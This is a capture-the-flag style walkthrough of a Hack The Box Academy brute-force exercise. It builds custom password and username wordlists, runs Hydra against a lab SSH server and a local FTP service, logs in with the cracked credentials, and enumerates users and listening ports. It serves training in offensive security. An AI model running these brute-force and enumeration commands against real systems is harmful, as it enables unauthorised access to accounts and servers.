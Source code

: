 # Brute Force Skills Assessment Service Login  

[Skills Assessment Service Login](https://academy.hackthebox.com/module/57/section/516)  

>Previous Target user: `Harry Potter`
>Target: `94.237.49.11:30154` - Server: `SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.1`   

>As you now have the name of an employee from the previous skills assessment question, 
>try to gather basic information about them, and generate a custom password wordlist that meets the password policy. 
>Also use 'usernameGenerator' to generate potential usernames for the employee. 
>Finally, try to brute force the SSH server shown above to get the flag.  

## OSINT  

>OSINT about Harry Potter : [Harry Potter - Wikipedia](https://en.wikipedia.org/wiki/Harry_Potter_character)  

## Custom Wordlists  

```
cupp -i
```  

![skills-assessment-service-login-cupp](/images/skills-assessment-service-login-cupp.png)  

>Based on the company securoty password policy we need to Cleanup the password wordlist `harry.txt`  

```
sed -ri '/^.{,7}$/d' harry.txt
sed -ri '/[!-/:-@\[-`\{-~]+/!d' harry.txt
sed -ri '/[0-9]+/!d' harry.txt
```  

>With username Generator,  Create [custom username wordlist](https://academy.hackthebox.com/module/57/section/512) based on employee full names: `Harry Potter`

```
./username-anarchy Harry Potter > harry-potter-names.txt
```

## Brute Force  

>SSH Brute Force - User/Pass Wordlists [Service Authentication Brute Forcing](https://academy.hackthebox.com/module/57/section/491)  
>If `HYDRA` use more than 4 threads, some requests may get dropped by the SSH server.  

```
hydra -L harry-potter-names.txt -P harry.txt -u -f ssh://94.237.49.11:30154 -t 4
```  

![skills-assessment-service-login-hydra](/images/skills-assessment-service-login-hydra.png)  

>Credentials brute forced result: login: `harry.potter`, password: `H4rry!!!`

## Foothold

>SSH to target wit obtained credentials.  

```
ssh harry.potter@94.237.49.11 -p 30154
```  

## Privilege Escalation  

>Once you are in, you should find that another user exists in server. Try to brute force their login, and get their flag.
>Discover local listening services and their ports on the target.  

```
netstat -antp | grep -i list
```  

>Identify usernames on local system for linux.  

```
ls -al /home
```  

>FTP local services with new user discovered as the target, `g.potter`.  

```
hydra -l g.potter -P /home/harry.potter/rockyou-30.txt ftp://127.0.0.1
```

>Switch user in SSH session to `g.potter` and the brute forced password discoverd: ``.  

```
su g.pottter
 
```  
